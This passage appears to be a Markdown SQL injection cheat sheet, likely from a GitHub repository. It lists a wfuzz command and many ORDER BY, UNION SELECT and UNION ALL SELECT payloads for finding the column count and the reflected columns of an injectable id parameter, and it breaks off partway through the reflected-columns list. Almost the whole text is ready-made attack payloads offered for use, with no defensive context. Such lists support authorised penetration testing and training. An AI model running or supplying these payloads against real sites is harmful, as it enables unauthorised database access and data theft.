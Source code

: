
## Enumerate NUMBER of columns
- ORDER BY
	```
	# Observer the http response size
	wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
	```
	```
	id=1 ORDER BY 1
	id=1 ORDER BY 2
	id=1 ORDER BY 3
	id= ORDER BY 1,2,3,4,5,6
	```
- UNION
	```
	id=-1' UNION SELECT 1 -- -
	id=-1' UNION SELECT 1,2 -- -
	id=-1' UNION SELECT 1,2,3 -- -

	id=1' UNION SELECT 1 #
	id=1' UNION SELECT 1,2 #
	id=1' UNION SELECT 1,2,3 #

	id=1' UNION SELECT 1 -- -
	id=1' UNION SELECT 1,2 -- -
	id=1' UNION SELECT 1,2,3 -- -
	
	id=1 UNION SELECT 1 -- -
	```
- UNION ALL
	```
	id=1' UNION ALL SELECT 1 #
	id=1' UNION ALL SELECT 1,2 #
	id=1' UNION ALL SELECT 1,2,3 #
	
	id=1' UNION ALL SELECT 1 -- -
	id=1' UNION ALL SELECT 1,2 -- -
	id=1' UNION ALL SELECT 1,2,3 -- -

	id=-1' UNION ALL SELECT 1 -- -
	id=-1' UNION ALL SELECT 1,2 -- -
	id=-1' UNION ALL SELECT 1,2,3 -- -
	```

## Enumerate REFLECTED columns
- UNION
	```
	id=-1' UNION SELECT 1 -- -
	id=-1' UNION SELECT 1,2 -- -
	id=-1' UNION SELECT 1,2,3 -- -
